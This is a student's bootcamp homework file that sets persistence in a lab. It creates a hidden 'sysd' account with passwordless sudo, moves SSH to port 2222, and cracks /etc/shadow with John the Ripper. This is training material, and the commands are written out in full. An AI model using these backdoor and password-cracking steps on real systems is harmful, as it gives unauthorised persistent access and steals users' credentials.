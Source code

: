 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 
    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 869 sysd`

    <img src="sysdID.png"> 

    ![description](IMAGE/sysdID.png)

    4. Give your secret user the same GID:
    - `sudo groupmod -g 869 sysd`

    <img src="IMAGE/sysdID.png"> 

        ![description](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   -  # User privilege specification
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

    <img src="/week6/IMAGE/su_acc_nopass.png"> 

    ![description](IMAGE/su_acc_nopass.png)


6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL   

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

